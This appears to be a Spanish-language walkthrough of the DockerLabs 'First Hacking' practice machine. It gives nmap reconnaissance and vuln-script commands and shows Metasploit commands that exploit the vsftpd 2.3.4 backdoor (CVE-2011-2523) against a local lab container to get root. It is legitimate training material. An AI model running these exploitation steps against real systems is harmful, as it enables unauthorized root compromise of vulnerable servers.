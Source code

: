 Machine name: First haking
plataforma: https://dockerlabs.es/#/
Dificultad: Muy facil
source: https://mega.nz/file/oCd2VC5D#QfiRoFmZrZ-FjTuyRX9bLw7638fjluwp6jNth7JjXTw
Autor: El pinguino de Mario

Herramientas:
- [[Ping]]
- [[NMAP]]
- [[Metasploit]]


![[Dockerlabs - FirstHacking - Firsthacking machine.png]]
despliegue:

```sh fold:"Despliegue de la maquina"
sudo bash auto_deploy.sh firsthacking.tar 
```


![[Dockerlabs - FirstHacking - Despliegue.png]]
ping a la IP:
```sh fold:"Ping a la máquina"
ping -c1 172.17.0.2
```

![[Dockerlabs - FirstHacking - Ping para ver conectividad.png]]
TTL: 64 linux

reconocimiento
```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```

![[Dockerlabs - FirstHacking - Nmpa reconocimiento.png]]

vemos que encontramos el puerto 21
vamos a lanzar un nmap con detalles para el puerto 21
```sh fold:"Reconocimiento con nmap y scrips del puerto 21"
sudo nmap --script "vuln" -p 21 172.17.0.2
```

![[Dockerlabs - FirstHacking - Nmap con exploit al puerto 21.png]]
tenemos la versión 2.3.4 y un cve:CVE-2011-2523
vamos a intentar explotarlo con metasploit

lanzamos metaesploit
buscamos por el CVE y al no encontrarlo buscamos por la versión de FTP:

```sh fold:"metaesploit"
search CVE-2011-2523 # No results
search ftp 2.3.4
use 0
set RHOSTS 172.17.0.2
run
```

![[Dockerlabs - FirstHacking - Metasploit encontrando el sploit.png]]


metaesploit configuramos el IP destino:
![[Dockerlabs - FirstHacking - Metaesploit configuracion de la IP del host.png]]


Una vez configurado el metasploit lanzamos run para lanzar el ataque

![[Dockerlabs - FirstHacking - Correr metaesploit.png]]
conseguimos acceso con el usuario root:

![[Dockerlabs - FirstHacking - Usuario Root.png]]